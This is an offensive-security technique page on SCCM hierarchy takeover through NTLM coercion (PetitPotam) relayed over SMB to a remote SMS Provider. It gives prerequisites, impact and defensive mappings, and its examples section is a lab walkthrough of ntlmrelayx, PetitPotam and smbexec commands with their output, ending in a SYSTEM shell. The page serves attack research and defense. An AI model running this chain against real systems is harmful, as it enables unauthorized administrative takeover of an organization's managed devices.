 ```yaml
---
title: 'TAKEOVER-6'
description: 'Hierarchy takeover via NTLM coercion and relay to SMB on remote SMS Provider'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-6.1: Coerce primary site server
    - TAKEOVER-6.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. An attacker who is able to successfully coerce NTLM authentication from a site server can escalate to "Full Administrator" by elevating to "NT\AUTHORITY SYSTEM" on the SMS Provider.

## Impact
This technique may allow an attacker to relay a site server domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description)
- [DETECT-5: Monitor group membership changes for RBAC_Admins table](../../../defense-techniques/DETECT/DETECT-6/detect-6_description)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description)

## Examples
1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```
2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service remote SMS Provider identified in the previous step:
    ```
    └─# ntlmrelayx.py -t smb://10.10.100.12 -socks -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening on 127.0.0.1:1080
    [*] HTTPS Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAPS Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the SMS provider and the authenticated session is held open

    ```
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.9, attacking target smb://10.10.100.12
    [*] Authenticating against smb://10.10.100.12 as LAB/SCCM$ SUCCEED
    [*] SOCKS: Adding LAB/SCCM$@10.10.100.12(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] SOCKS: Proxying client session for LAB/SCCM$@10.10.100.12(445)
    socks
    Protocol  Target        Username   AdminStatus  Port
    --------  ------------  ---------  -----------  ----
    SMB       10.10.100.12  LAB/SCCM$  TRUE         445
    ntlmrelayx>
    ```

 4. Proxy `smbexec.py` in the context of the site server through the authenticated session to establish interactive access on the target host as NT\AUTHORITY SYSTEM:
    ```
    └─# proxychains smbexec.py LAB/SCCM\$@10.10.100.12 -codec 437 -no-pass
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.12:445  ...  OK
    [!] Launching semi-interactive shell - Careful what you execute
    C:\Windows\system32>wmic /namespace:\\root\sms\site_lab path SMS_Admin get AdminID,LogonName
     ■AdminID   LogonName
    16777217  LAB\Administrator
    16777220  LAB\lowpriv

    C:\Windows\system32>
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
